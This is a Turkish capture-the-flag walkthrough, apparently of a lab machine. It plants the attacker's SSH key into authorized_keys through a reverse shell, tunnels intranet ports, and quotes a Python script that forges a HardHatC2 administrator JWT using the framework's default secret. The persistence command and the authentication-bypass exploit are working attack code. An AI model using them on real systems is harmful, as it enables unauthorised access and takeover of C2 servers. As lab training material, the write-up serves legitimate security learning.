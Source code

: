 Kendi `id_rsa.pub` anahtarınızı bu dosyaya ekleyin. Reverse shell'de aşağıdaki komutu çalıştırabilirsiniz:

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDj/3gLb5CqayZHG8NynOzx6uN6tOAkNG3E5OKxFv6tTLIiA89T8l+68Pm/VjXcQ1y3/S3TqQf73p6MRKOy+zK6Ay3S/oKoI4+0dp5DcJjn01ZG87hCQWdriR93HUcYgUG71AI+M8GzEYe3x+xdDLOOjdM+1R4Pjm21R/vW7FFvzG265B5nZtMoLesHXSCvdrE6WwhVULcnH1Hn+1SnP5ZlGkdJaKtKcph4K0fittKij1US/SZ6P6szf4PpOjF8xyhBpizqqfuu2ACCTBUB2yznYSH0JCIC4UMGNZNpVN0lK8vGMbFEPs+rn9Pm017jlJTth3JjYdXyJdKl2vCnj9x5 root@kali" >> authorized_keys
```

![Pasted image 20250121203645.png](/img/user/resimler/Pasted%20image%2020250121203645.png)

![Pasted image 20250121203714.png](/img/user/resimler/Pasted%20image%2020250121203714.png)

![Pasted image 20250121203737.png](/img/user/resimler/Pasted%20image%2020250121203737.png)

![Pasted image 20250121203753.png](/img/user/resimler/Pasted%20image%2020250121203753.png)

"Sergej, HardHatC2'yi test amacıyla kurduğunu ve varsayılan ayarları değiştirmediğini söyledi.  
Umarım Havoc'u tercih eder çünkü başka bir C2 framework'ü öğrenmek istemiyorum, ayrıca Go > C#."

İntranet portlarının durumunu kontrol etme

![Pasted image 20250121203927.png](/img/user/resimler/Pasted%20image%2020250121203927.png)

Bu HardHatC2 ile ilgili güvenlik açıklarını ararken şunu buldum 👇

https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7

Öncelikle, SSH aracılığıyla intranet üzerindeki 7096 ve 5000 numaralı portları proxy'lemeniz gerekir

![Pasted image 20250121204109.png](/img/user/resimler/Pasted%20image%2020250121204109.png)

sonra çalıştır

```
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests
 
rhost = '127.0.0.1:5000'
 
# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()
 
expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
 
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
 
```